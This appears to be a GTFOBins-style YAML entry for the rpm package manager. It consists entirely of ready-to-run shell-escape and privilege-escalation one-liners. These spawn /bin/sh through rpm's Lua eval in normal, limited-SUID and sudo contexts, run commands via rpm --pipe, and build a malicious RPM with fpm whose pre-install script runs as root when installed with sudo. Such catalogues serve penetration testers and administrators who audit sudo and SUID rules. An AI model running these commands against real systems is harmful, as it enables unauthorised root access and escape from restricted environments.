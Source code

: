 ```yaml
---
functions:
  shell:
    - code: rpm --eval '%{lua:os.execute("/bin/sh")}'
  command:
    - code: |
            rpm --pipe '/bin/id > /tmp/result'
            cat /tmp/result
  limited-suid:
    - code: rpm --eval '%{lua:os.execute("/bin/sh")}'
  sudo:
    - code: sudo rpm --eval '%{lua:os.execute("/bin/sh")}'
    - description: |
        It runs commands using a specially crafted RPM package. Generate it with [fpm](https://github.com/jordansissel/fpm) and upload it to the target.
        ```
        TF=$(mktemp -d)
        echo 'id' > $TF/x.sh
        fpm -n x -s dir -t rpm -a all --before-install $TF/x.sh $TF
        ```
      code: |
        sudo rpm -ivh x-1.0-1.noarch.rpm
---
```

